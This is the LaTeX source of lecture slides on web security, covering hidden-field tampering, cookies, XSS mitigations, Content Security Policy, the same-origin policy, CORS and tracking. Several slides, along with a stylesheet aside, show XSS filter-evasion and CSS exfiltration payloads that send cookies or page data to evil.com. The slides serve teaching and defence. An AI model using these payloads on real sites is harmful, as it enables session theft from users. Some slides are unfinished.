\begin{frame}[fragile,label=trustCli1]{trusting the client (1)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Your email: <input name="from" value=""><br>
Your message: <textarea name="message"></textarea>
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
        \item if this my form, can I get a recipient of \texttt{spamtarget@foo.com}?
            \begin{itemize}
                \item Am I \myemph{enabling spammers}??
            \end{itemize}
        \item<2> Yes, because attacker could \myemph{make own version of form}
    \end{itemize}
\end{frame}
\begin{frame}[fragile,label=RefererHeader]{Referer header}
Submitting form at \texttt{https://example.com/feedback.html}:
\begin{framed}
\tt\small
POST /formmail.pl HTTP/1.1 \\
Host: example.com \\
Content-Type: application/x-www-form-urlencoded \\
\myemph{Referer: https://example.com/feedback.html} \\
~ \\
recipient=webmaster@example.com\&from=\ldots \\
\end{framed}
    \begin{itemize}
        \item \textbf{sometimes} sent by web browser
        \item if browser always sends, \myemph{does this help?}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=trustCli2]{trusting the client (2)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
    \item can I get a recipient of \texttt{spamtarget@example.com} \myemph{and the right referer header}?
        \begin{itemize}
        \item attacker can't modify the form on example.com!
        \item browser sends header with URL of form
        \end{itemize}
    \item<2> Yes, because attacker can \myemph{customize their browser}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=trustCliNoOne]{trusting the client (3)}
\setlength{\parskip}{0em}
\fontsize{10}{11}\selectfont\tt
ISS E-Security Alert  \\
February 1, 2000 

Form Tampering Vulnerabilities in Several Web-Based Shopping Cart Applications

\ldots

Many web-based shopping cart applications \myemph{use hidden fields in HTML forms} to
hold parameters for items in an online store. These parameters can include
the item's name, weight, quantity, product ID, and \myemph{price}.\ldots

\ldots

Several of these applications use a security method based on \myemph{the HTTP header}
to verify the request is coming from an appropriate site.\ldots

The ISS X-Force has identified \myemph{eleven shopping cart applications} that are vulnerable to form tampering. \ldots

~
\end{frame}

% FIXME: real client-side validation examples


\section{HTTP logins with cookies}

\begin{frame}{implementing logins on HTTP}
    \begin{itemize}
        \item typical mechanism: \myemph{cookies}
        \item information for \myemph{client to send} with future requests to server
        \begin{itemize}
            \item limited to \myemph{particular domain} (or domain+path)
        \end{itemize}
    \item Server sets cookie set via header in HTTP response
        \begin{itemize}
            \item \texttt{\fontsize{10}{10}\selectfont Set-Cookie: key=theInfo; domain=example.com; expires=Wed, Apr \ldots}
        \end{itemize}
    \item Client sends back cookie with \myemph{every HTTP request}
        \begin{itemize}
            \item \texttt{\fontsize{10}{10}\selectfont Cookie: key=theInfo}
        \end{itemize}
    \item JavaScript can also read or set Cookie
    \end{itemize}
\end{frame}


\subsection{cookie fields}


\begin{frame}<1>[label=cookieFields]{cookie fields}
    \begin{itemize}
        \item cookie data: whatever server wants; typically \myemph{session ID}
        \begin{itemize}
            \item \myemph{same problems as hidden fields}
            \item usually tied to database on server
            \item supposed to be kept secret by logged-in user
        \end{itemize}
    \item \texttt{domain}: to what servers should browser send the cookie
        \begin{itemize}
            \item \fbox{\texttt{facebook.com}} --- login.facebook.com, www.facebook.com, facebook.com, etc.
        \end{itemize}
    \item \myemph<2>{\textbf<2>{\texttt{path}}: to what URLs on a server should browser send the cookie}
        \begin{itemize}
            \item \fbox{\texttt{/foo}} --- server.com/foo, server.com/foo/bar, etc.
        \end{itemize}
    \item \texttt{expires}: when the browser should forget the cookie
    \item and security related: 
        \begin{itemize}
        \item secure; samesite; httponly; partitioned;
        \end{itemize}
    \end{itemize}
\end{frame}


\subsection{XSS cookie extraction}


\begin{frame}<1>[fragile,label=evilInnocent]{evil website/innoncent website}
    \begin{tikzpicture}
        \tikzset{>=Latex}
        \node[fill=green!30,minimum height=6cm,minimum width=2cm,align=center,anchor=north west] (browser) at (0, 0) {
            victim user's  \\ web browser
        };
        \node[fill=red!30,dashed,thick,draw,minimum height=2cm,minimum width=2cm,align=center,anchor=north east] (attacker) at (14, 0) {
            attacker\\ website
        };
        \node[fill=blue!30,minimum height=3cm,minimum width=2cm,align=center,anchor=north east] (server) at (14, -2.25) {
            victim \\ website
        };


        \draw[thick,<-] ([yshift=-.5cm] attacker.north west) -- ([yshift=-.5cm]browser.north east) node[midway,above] {
            get some web page
        };
        \draw[thick,->] ([yshift=-1.5cm] attacker.north west) -- ([yshift=-1.5cm]browser.north east) node[midway,above] {
            do something with victim website
        };

        \draw[thick,->] ([yshift=-2.75cm] browser.north east) -- ([yshift=-.5cm]server.north west) node[midway,above] {
            request chosen by attacker
        };
        \draw[thick,<-] ([yshift=-4.25cm] browser.north east) -- ([yshift=-2cm]server.north west) node[midway,above,align=center] {
            page with javascript chosen by attacker? \\
            \small injected command: ``send secret cookie to attacker''?
        };
        \begin{visibleenv}<2>
        \draw[thick,<-] ([yshift=-5.25cm] browser.north east) -- ([yshift=-3cm]server.north west) node[midway,above] {
            \myemph{results of action chosen by attacker?}
        };
        \end{visibleenv}
        \begin{visibleenv}<1>
        \node[fill=red!30,dashed,thick,draw,minimum height=1cm,minimum width=2cm,align=center,anchor=north east] (attacker2) at (14, -5.45) {
        };
            \draw[thick,->] ([yshift=-5.85cm] browser.north east)  -- ([yshift=-.25cm]attacker2.north west) node[midway, above] {secret values from victim website};
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}



\subsection{XSS mitiations}

\section{XSS mitigations}

\begin{frame}<1-2>[label=XSSmits]{webapp XSS mitigations}
    \begin{itemize}
    \item host dangerous stuff on different domain
        \begin{itemize}
        \item has different cookies
        \end{itemize}
    \item \myemph<2>{filter/escape inputs} (same as normal command injection)
        \begin{itemize}
        \item some libraries to help --- very easy to get this wrong
        \end{itemize}
    \item \myemph<3>{web application firewalls}
        \begin{itemize}
        \item module on web server that look for `bad-looking' requests
        \end{itemize}
    \item Content-Security-Policy
        \begin{itemize}
        \item server says ``browser, don't run scripts here''
        \end{itemize}
    \item \myemph<4>{HttpOnly cookies}
        \begin{itemize}
        \item server says ``browser, don't share this with code on the page''
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=HTMLFilterEscapeNits]{HTML filtering/escaping nits}
    \begin{itemize}
    \item it's easy to mess up HTML filtering or escaping
        \begin{itemize}
        \item (especially if trying to allow ``safe HTML'')
        \item browsers have features you don't know about
        \end{itemize}
    \item can `only' set image URL?
\begin{minted}[fontsize=\fontsize{10}{11}]{HTML}
<img src="javascript:(new Image()).src=
                     'http://evil.com/' + document.cookie">
\end{minted}
    \item disallow the word `script'?
\begin{minted}[fontsize=\fontsize{10}{11}]{HTML}
<img src="x"onerror="(new Image()).src=
                   'http://evil.com/' + document.cookie">
\end{minted}

    \end{itemize}
            \imagecredit{via \url{https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet}}
\end{frame}

\againframe<3>{XSSmits}

\begin{frame}[fragile]{web application firewall rule}
\begin{Verbatim}[fontsize=\small]
# via coreruleset.org, simplified some
SecRule REQUEST_COOKIES|...|REQUEST_FILENAME|\
        ARGS_NAMES|ARGS|... \
    "@rx (?i)<script[^>]*>[\s\S]*?" \
    "id:941140,phase:2,block,cpature..."
\end{Verbatim}
\begin{itemize}
\item look for \verb|<script>| tags in request
\item problem: maybe not use
\end{itemize}
\end{frame}

\againframe<4>{XSSmits}

\begin{frame}<1-2>[fragile,label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item \texttt{Set-Cookie: SessionID=123456789; HttpOnly}
    \item ``only send cookie in HTTP''
    \item cookie is \myemph{not available to JS}
    \item eliminates obvious way of exploiting XSS
    \item problem (1): \myemph<2>{JS can read webpage contents}
    \end{itemize}
\begin{Verbatim}[fontsize=\small]
(new Image()).src = "https://example.com/?" +
    document.getElementByTagName('input')[0].value
\end{Verbatim}
\end{frame}

\begin{frame}<1-2>[fragile,label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item problem (2): \myemph<2>{JS can automate webpages on same origin}
    \end{itemize}
\begin{Verbatim}[fontsize=\small]
<iframe id='the-frame'></iframe>
<script>
var frame = document.getElementById('the-frame');
frame.onload = function( {
    frame.contentDocument.getElementById('form-field').value = ...;
    frame.contentDocument.getElementById('form-id').submit()
}
frame.src = ...;
\end{Verbatim}
\end{frame}


\subsection{CSP}

\begin{frame}[fragile,label=CSPExs]{Content Security Policy}
    \begin{itemize}
        \item \texttt{Content-Security-Policy}: HTTP header sent to browsers
        \item \fbox{\small \tt Content-Security-Policy: default-src 'self' 'unsafe-inline'}
        \item says ``only load things from \myemph{same host} or \myemph{embedded in webpage}''
            \begin{itemize}
            \item loading image from \texttt{evil.com} will fail
            \end{itemize}
        \item \fbox{\parbox{11cm}{\small \tt Content-Security-Policy: script-src 'none';\\object-src 'none';
            style-src 'self'}}
            \begin{itemize}
            \item disallow all scripts, all plugins/etc.
            \item only allow stylesheets from same host (and not inline)
            \end{itemize}
    \end{itemize}

    % FIXME: gmail policy
    %"frame-src https://*.talkgadget.google.com/ 'self' https://hangouts.google.com/ https://talkgadget.google.com/ https://drive.google.com/picker https://ssl.gstatic.com https://accounts.google.com/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.google.com/tools/feedback/ https://support.google.com/inapp/ https://plus.google.com/ https://docs.google.com/ https://clients5.google.com/pagead/drt/dn/ https://clients5.google.com/ads/measurement/jn/ https://clients6.google.com/static/ https://mail.google.com/mail/ https://mail-attachment.googleusercontent.com/attachment/ https://apis.google.com/additnow/ https://notifications.google.com/ https://people-pa.clients6.google.com/static/;script-src https://maps.gstatic.com/ https://*.talkgadget.google.com/ blob: 'self' 'unsafe-inline' 'unsafe-eval' https://hangouts.google.com/ https://talkgadget.google.com/ https://apis.google.com/ https://ajax.googleapis.com/ https://maps.googleapis.com/maps/api/ https://maps.googleapis.com/maps-api-v3/ https://www-onepick-opensocial.googleusercontent.com/gadgets/js/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.gstatic.com/feedback/ https://clients1.google.com/complete/ https://www.gstatic.com/og/ https://www.googleapis.com/appsmarket/ https://www.google.com/tools/feedback/;img-src https: blob: data:;report-uri /cspreport"
\end{frame}

\begin{frame}[fragile]{Aside: why care about stylesheets?}
    \begin{itemize}
    \item get data: \verb|<link rel=stylesheet href="http://evil.com/?webpage contents here...|
    \item conditional image loaded to get data? assuming pre-filled-in-form:
        \begin{itemize}
        \item \verb|input[value^=Virginia] {background: url(http://evil.com?Virginia)}|
        \end{itemize}
    \item adjust webpage display in lots of ways
        \begin{itemize}
        \item convince user to click in wrong places?
        \end{itemize}
    \item IE 7 supported CSS expressions that can construct URLs from webpage data directly
    \end{itemize}
\end{frame}

\begin{frame}{Content Security Policy examples (1)}
    \begin{itemize} 
        \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: script-src 'self' www.google-analytics.com; object-src 'none'}}
        \begin{itemize}
            \item allow scripts from same host or \texttt{www.google-analytics.com}
            \item \myemph{disallow inline scripts}
            \item disallow plugins
        \end{itemize}
    \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: default-src 'none'; img-src 'self' https://\ldots; \ldots}}
        \begin{itemize}
            \item allow nothing to start; then whitelist what is needed
            \item recommended strategy
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=CSPNonces]{CSP nonces}
\begin{minted}[fontsize=\small]{HTML}
Content-Security-Policy: script-src https://foo.com
                                    'nonce-DZJeVASMVs'

...
<script nonce="DZJeVASMVs">
// legitimate embedded script
document...
</script>
\end{minted}
    \begin{itemize}
    \item nonce: ``\textbf{n}umber used only \textbf{once}''
    \item idea: \myemph{changes every time}; attacker can't guess for XSS attack
        \begin{itemize}
        \item browser doesn't enforce that it changes; server's job
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{CSP report-only}
    \begin{itemize}
    \item content-security-policy-report-only
        \begin{itemize}
        \item don't block anything, but tell server if violation
        \end{itemize}
    \item can use to check before setting binding policy
    \item can scan reports for possible issues without breaking webpage
    \end{itemize}
\end{frame}

\begin{frame}{CSP feature expansion}
    \begin{itemize}
    \item originally: CSP was anti-XSS measure
        \begin{itemize}
        \item meant as `defense in depth' --- in case normal filtering fails
        \end{itemize}
    \item now also has directives to control
        \begin{itemize}
        \item embedding webpages without permission (e.g. `clickjacking' attacks)
        \item TLS usage
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{CSP deployment (2020 paper)}

\includegraphics[width=\textwidth]{../web/roth-ndss-title}
\end{frame}

\begin{frame}{CSP deployment (2014-2019)}

\includegraphics[width=\textwidth]{../web/roth-ndss-fig5}
\end{frame}

% FIXME: https://dl.acm.org/doi/pdf/10.1145/2508859.2516703 (2016 paper)

\begin{frame}{CSP implementation bugs (1)}

\includegraphics[width=\textwidth]{../web/franken-title}
\end{frame}

\begin{frame}{CSP implementation bugs (2)}

\includegraphics[width=0.45\textwidth]{../web/franken-fig3}

\includegraphics[width=0.45\textwidth]{../web/franken-fig10}
\end{frame}




\subsection{embedded/SOP}

\begin{frame}[fragile,label=webInWeb]{web pages in web pages (1)}
    \vspace{-.25cm}
\begin{minted}[bgcolor=bg,fontsize=\small]{HTML}
<iframe id="localFrame" src="./localsecret.html"
    onload="readLocalSecret()"></iframe>
<script>
function readLocalSecret() {
    alert(document.getElementById('localFrame').
          contentDocument.innerHTML);
}
</script>
\end{minted}
    \begin{itemize}
    \vspace{-.25cm}
    \item displays localsecret.html's \myemph{contents} in an alert box
    \item can also extract specific parts of page
    \item same idea works for sending it to remote server
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=webInWebOther]{web pages in web pages (2)}
    \vspace{-.25cm}
    \setlength{\parskip}{-0.5\baselineskip}
\begin{minted}[bgcolor=bg,fontsize=\small,highlightlines=2,highlightcolor=green!30!white]{HTML}
<iframe id="remoteFrame"
    src="https://collab.virginia.edu/..."
    onload="readRemoteSecret()></iframe>
<script>
function doIt() {
    alert(document.getElementById('remoteFrame').
          contentDocument.innerHTML);
}
</script>
\end{minted}
    \begin{itemize}
    \vspace{-.25cm}
    \item will this work?
    \end{itemize}
\end{frame}

\begin{frame}{what happened?}
    \begin{itemize}
        \item ``TypeError: document.getElementById(...).contentDocument is null''
        \item web browser denied access
        \vspace{.5cm}
    \item \myemph{Same Origin Policy}
    \end{itemize}
\end{frame}


\section{same-origin policy}

\begin{frame}{browser protection}
    \begin{itemize}
        \item websites want to \myemph{load content dynamically}
    \begin{itemize}
        \item Google docs --- send what others are typing
        \item webmail clients autoloading new emails, etc.
        \item \ldots
    \end{itemize}
    \item but shouldn't be able to do so from any other website
        \begin{itemize}
        \item e.g. read grades of Collab if I'm logged in
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{same-origin policy}
    \begin{itemize}
        \item two pages from same \myemph{\textbf{origin}}: scripts can do anything
        \item two pages from different \myemph{\textbf{origins}}: almost no information
            \vspace{.5cm}
        \item idea: different websites can't interfere with each other
            \begin{itemize}
            \item facebook can't learn what you do on Google --- unless Google allows it
            \end{itemize}
        \item \myemph{enforced by browser}
    \end{itemize}
\end{frame}

\begin{frame}{origins}
    \begin{itemize}
        \item origin: part of URL up to server name:
            \begin{itemize}
                \item \texttt{\myemph{https://example.com}/foo/bar}
                \item \texttt{\myemph{http://localhost}\tikzmark{local1}/foo/bar}
                \item \texttt{\myemph{http://localhost:8000}\tikzmark{local2}/foo/bar}
                \item \texttt{\myemph{https://www.example.com}/foo/bar}
                \item \texttt{\myemph{http://example.com}/foo/bar}
                \item \texttt{\myemph{https://other.com}/foo/bar}
                \item \texttt{\myemph{file:///}home/cr4bd}
            \end{itemize}
    \end{itemize}
\end{frame}

\againframe<2>{cookieFields}

\begin{frame}{origins and shared servers}
    \begin{itemize}
        \item very hard to safely share a \myemph{domain name}
    \item can never let attacker write scripts on same domain
        \begin{itemize}
        \item even if cookies don't matter
        \end{itemize}
    \item similar issues with plugins (e.g. Flash)
    \vspace{.5cm}
\item can share server --- one server can host \myemph{multiple names}
    \end{itemize}
\end{frame}


\subsection{iMessage SOP bug}

\subsection{not working: iMessage flaw}
    % https://www.bishopfox.com/blog/2016/04/if-you-cant-break-crypto-break-the-client-recovery-of-plaintext-imessage-data/

\begin{frame}<1>[label=iMsgBug,fragile]{iMessage bug}
    \begin{itemize}
        \item iMessage (Apple IM client): embedded browser to display messages
            \begin{itemize}
            \item a common (easy?) way to write user interfaces
            \end{itemize}
        \item old bug: click on \myemph{malicious link, send message logs to attacker}
            \begin{itemize}
            \item CVE-2016-1764 
            \end{itemize}
        \vspace{.5cm}
        \item<2-> message links could \myemph<2>{include javascript}
        \item<2-> same-origin policy \myemph<2>{not enforced}
    \end{itemize}

        \imagecredit{https://www.bishopfox.com/blog/2016/04/if-you-cant-break-crypto-break-the-client-recovery-of-plaintext-imessage-data/}
\end{frame}

\againframe<2>{iMsgBug}

\begin{frame}{JavaScript URL}
    \begin{itemize}
        \item \fbox{\texttt{javascript:some java script code}} is a kind of URL
        \item runs JavaScript when clicked (\myemph{permissions of current web page})
        \item iMessages allowed \texttt{\textit{ANYTHING}://\textit{ANYTHING}} as a link
            \begin{itemize}
            \item \texttt{https://www.google.com/}
            \item \texttt{invalidnamethatdoesnotdoanything://otherStuff}
            \item \texttt{javascript://\%0a\fbox{JavaScriptCodeHere}} (\%0a = newline)
            \end{itemize}
        \item JS can request \fontsize{11}{12}\texttt{file:///Users/somename/Library/Messages/chat.db}
            \begin{itemize}
                \item \myemph{no same origin policy just for the UI}
                \item should have prohibited this
            \end{itemize}
    \end{itemize}
\end{frame}



\subsection{SOP details/leak}

\subsection{SOP details}

\begin{frame}{operations requiring same origin}
    \begin{itemize}
    \item accessing webpage you loaded in iframe, pop-up window, etc.
    \item accessing webpage loading you in iframe, pop-up window, etc.
    \item sending \textit{certain kinds of} requests
        \begin{itemize}
        \item most notably XMLHTTPRequest --- ``AJAX''
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}<1>[label=noSameOrigin]{operations not requiring same origin}
    \begin{itemize}
    \item \myemph<2>{loading images, stylesheets (CSS), video, audio}
    \item \myemph<3>{linking to websites}
    \item \myemph<7>{loading scripts}
        \begin{itemize}
        \item but not getting syntax errors
        \end{itemize}
    \item \myemph<4>{accessing with ``permission'' of other website}
    \item \myemph<5>{submitting forms to other webpages}
    \item \myemph<6>{requesting/displaying other webpages \sout<7>{(but not reading contents)}}
    \end{itemize}
\end{frame}

% FIXME: explanation





\subsection{deliberate sharing}


\begin{frame}{deliberate sharing}
    \begin{itemize}
    \item websites often want to access other websites
    \item embedded frame often not enough
        \vspace{.5cm}
    \item example: Facebook login API
    \end{itemize}
    
\includegraphics[width=0.7\textwidth]{../web/fb-login-api}
\end{frame}

\begin{frame}[label=ssoLogin]{deliberate sharing: single-sign-on API}
\vspace{-.5cm}
    \begin{tikzpicture}
        \tikzset{
            >=Latex,
        }
        \node[fill=blue!30,minimum height=8cm,anchor=north west] (browser) at (0,0) { browser };
        \node[fill=green!30,minimum height=2cm,anchor=north east] (server1) at (15,0){ \tt example.com };
        \node[fill=yellow!30,minimum height=2cm,anchor=north east] (server2) at (15, -2.5) { \tt socialnetwork };
        \node[fill=green!30,minimum height=3cm,anchor=north east] (server3) at (15, -5) { \tt example.com};
        \begin{scope}[>=Latex,ultra thick,every node/.style={font=\tt\fontsize{10}{10}\selectfont,align=left,inner sep=.25mm},y=1.2cm]
            \draw[->] ([yshift=-.5cm]browser.north east) -- ([yshift=-.5cm]server1.north west)
                node[midway,above] { GET /login/ };
            \draw[<-] ([yshift=-1.5cm]browser.north east) -- ([yshift=-1.5cm]server1.north west)
                node[midway,above,align=center] (redirectOne) { Set-Cookie: ExSessionID=... \\ goto \texttt{socialnetwork/login/?for=example.com} };
            \draw[->] ([yshift=-3.0cm]browser.north east) -- ([yshift=-0.5cm]server2.north west)
                node[midway,above] { GET /login/?for=example.com \\ Cookie: SNSessionID=... };
            \draw[<-] ([yshift=-4.0cm]browser.north east) -- ([yshift=-1.5cm]server2.north west)
                node[midway,above] (redirectTwo) {  goto example.com/loggedin?\myemph{token=...} };
            \draw[->] ([yshift=-5.5cm]browser.north east) -- ([yshift=-0.5cm]server3.north west)
                node[midway,above] (token) { GET /loggedin?\myemph<2>{token=...} \\ Cookie: ExSessionID=... };
            \draw[<-] ([yshift=-6.5cm]browser.north east) -- ([yshift=-1.5cm]server3.north west)
                node[midway,above] { goto example.com/frontpage };
        \end{scope}
        \begin{visibleenv}<2>
            \node[my callout2=redirectOne,anchor=center,align=left] at ($(browser.east)!0.5!(server2.west)$) {
                tell browser to make request to socialnetwork; \\
                they will handle login
            };
        \end{visibleenv}
        \begin{visibleenv}<3>
            \node[my callout2=redirectTwo,anchor=center,align=left] at ([yshift=2cm]$(browser.east)!0.5!(server2.west)$) {
                socialnetwork verifies user's cookie \\
                (maybe displays login prompt) \\
                then redirects back to example.com with \myemph{token}
            };
        \end{visibleenv}
        \begin{visibleenv}<4>
            \node[my callout2=token,anchor=center,align=left] at ($(browser.east)!0.5!(server2.west)$) {
                example.com can \myemph{send token to socialnetwork to verify} \\
                e.g. make request to socialnetwork to get username 
            };
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}

\begin{frame}{deliberate sharing: retrieving information}
    \begin{itemize}
    \item what about retrieving information from JavaScript?
    \item example: Google Translator API
    \item example: Token to Username API
    \vspace{.5cm}
    \item explicit mechanism for server opt-in to cross-origin requests (where webpage can read result)
        \begin{itemize}
        \item Cross-Origin Resource Sharing
        \end{itemize}
    \item \myemph{no opt-in? JS fails} like before
    \item always sends Origin --- no pretending to be innocent user
    \end{itemize}
\end{frame}



\subsection{CORS}
\begin{frame}{cross-origin resource sharing}
    \begin{itemize}
    \item sometimes want exceptions to usual origin policy:
    \vspace{.5cm}
    \item let scripts on foo.com load data from bar.com
        \begin{itemize}
        \item example: bar.com running maps API
        \end{itemize}
    \item need mechanism for bar.com to give permission
        \begin{itemize}
        \item don't accidentally leak logged-in only info
        \end{itemize}
    \item historically didn't worry about this:
        \begin{itemize}
        \item no restrictions on loading images/scripts from elsewhere
        \item \ldots even though they may be based on cookies/etc.
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{Access-Control-Allow\ldots}
    \begin{itemize}
    \item Origin
    \item Headers
    \item Credentials
    \item Request-Heaers
    \item Request-Method
    \item Max-Age
    \end{itemize}
\end{frame}

\begin{frame}{preflighting}
    % FIXME: show OPTIONS request
\end{frame}

\begin{frame}{Cross-Origin-Resource-Policy}
    % FIXME
\end{frame}

\begin{frame}{crossorigin attribute}
\end{frame}
 % FIXME: crossorigin= % FIXME: incomplete

\subsection{SRI}
\begin{frame}[fragile]{subresource integrity}
    \begin{itemize}
    \item common to want someone else to host files
    \item big risk for scripts
    \vspace{.5cm}
    \item subresource integrity: check that file does not changej
    \end{itemize}
\begin{Verbatim}
<script
  src="https://cdn.com/bigfile.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"></script>
\end{Verbatim}
\end{frame}


\section{user tracking}

\begin{frame}{on user tracking}
    \begin{itemize}
    \item embedding one web page in another enables tracking users across website
    \item example: multiple webpages include \texttt{iframe} with a google ad
        \begin{itemize}
        \item your browser sends request \myemph{to Google with same cookie}
        \item Google reliably gets excerpt of web history
        \end{itemize}
    \item reason: websites cooperated with Google
    \item users often don't like this
    \item what can browsers do about this?
    \end{itemize}
\end{frame}




\subsection{third-party cookies}

\begin{frame}{changing the cookie policy (1)}
    \begin{itemize}
    \item idea: no ``third-party'' cookies
    \item only send cookies for URL in address bar
    \vspace{.5cm}
    \item<2> now embedded Google calendar can't use my credentials
    \item<2> what about websites that use multiple domains?
    \end{itemize}
\end{frame}

\begin{frame}{changing the cookie policy (2)}
    \begin{itemize}
    \item by default: don't send cookies on embedded cross-origin requests
    \item varying ideas about restricting third-party cookies
    \end{itemize}
\end{frame}

\begin{frame}{third-party cookie restrictions}
    \begin{itemize}
    \item Firefox:
        \begin{itemize}
        \item separate `cookie jar' for each top-level domain
        \item tracker.com loaded from foo.com != tracker.com loaded from bar.com
        \item \myemph<2>{heuristics to avoid breaking some websites}
        \end{itemize}
    \item Safari
        \begin{itemize}
        \item don't see third-party cookies
        \item opt-in to separate cookie jar?
        \end{itemize}
    \item Chrome:
        \begin{itemize}
        \item opt-in to partitioned cookie jar
        \end{itemize}
    \end{itemize}
\end{frame}

% FIXME: heuristics





\begin{frame}[fragile,label=noCookieTrack]{tracking without cookies}
    \begin{itemize}
    \item websites can do tracking even with no cookies
        \begin{itemize}
        \item information in URLs --- add \texttt{?sessionID} to all links
        \item web page caches
        \end{itemize}
    \item websites can ``fingerprint'' browser and machine
        \begin{itemize}
        \item version, fonts, screen resolution, plugins, graphics features, \ldots
        \item \myemph<2>{caching} of previously downloaded resources
        \item almost unique a surprising amount of the time
        \end{itemize}
    \item have IP addresses, too --- very good hints
    \end{itemize}
\end{frame}
 % FIXME: https://ieeexplore.ieee.org/stamp/stamp.jsp?arnumber=9519502

\subsection{other storage}
\begin{frame}{other storage}
\begin{itemize}
\item {\scriptsize\url{https://developer.mozilla.org/en-US/docs/Web/Privacy/Guides/Redirect_tracking_protection}}
\end{itemize}
